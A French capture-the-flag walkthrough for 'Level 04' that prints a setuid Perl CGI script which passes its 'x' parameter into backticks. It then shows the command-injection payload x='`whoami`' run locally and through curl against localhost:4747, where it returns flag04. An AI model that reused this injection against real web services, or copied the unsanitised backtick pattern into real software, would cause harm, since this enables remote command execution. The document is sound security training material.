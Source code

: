 # Level 04

The home of level04 user
```
$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```
On peut voir un script en perl `level04.pl`.
```pl
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Sur ce script il y a 3 chose à retenir,
 - Un commentaire parlant d'une ip local avec un port
 - Les deux backtick
 - Ce script lit le parametre nommée `x`

Pour confirmer le premier point on peut faire `netstat -nl`, ce qui nous affiche bien le port 4747 sur `listen`
```
$ netstat -nl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
...
tcp6       0      0 :::4747                 :::*                    LISTEN
...
```
Le deuxieme, qu'on peut executer des commandes via le point numbero 3 qui est le parametre x.
```
$ ./level04.pl x='`whoami`'
Content-type: text/html

level04
```
Et maintenant si on fait appel à ce cgi sur le port 4747
```
$ curl 'localhost:4747/level04.pl?x=`whoami`'
flag04
```
Et boom, on voit que le serveur est lancer sur l'user flag04 et qu'on peut executer la commande `getflag`